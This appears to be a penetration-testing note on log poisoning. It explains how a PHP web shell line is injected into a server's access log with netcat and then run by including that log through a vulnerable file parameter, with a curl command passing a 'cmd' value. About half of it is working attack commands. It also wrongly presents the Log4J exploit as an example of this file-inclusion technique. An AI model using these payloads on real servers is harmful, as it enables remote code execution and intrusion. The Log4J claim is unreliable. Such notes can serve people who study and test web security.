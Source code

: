 # Log Poisoning

## Introduction

Log Poisoning is a type of [[File-Inclusion-And-Directory-Traversal]] related attack that seeks to inject the log file of a server with malicious request that include code to then can then be used in an LFI payload. The infamous [[Log4J]] exploit is the famous recent example of Log Poisoning that leads to Remote Code Execution. Simple example being:
```bash
nc -nv $poor_web_server_ip 80
(UNKNOWN) [$poor_web_server_ip] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

## File Inclusion Code Execution

Vulnerable parameter `?file=` and  `&cmd`

```bash
curl "http://$poor_web_server/menu.php?file=c:\xampp\apache\logs\access.log&cmd=dir"
```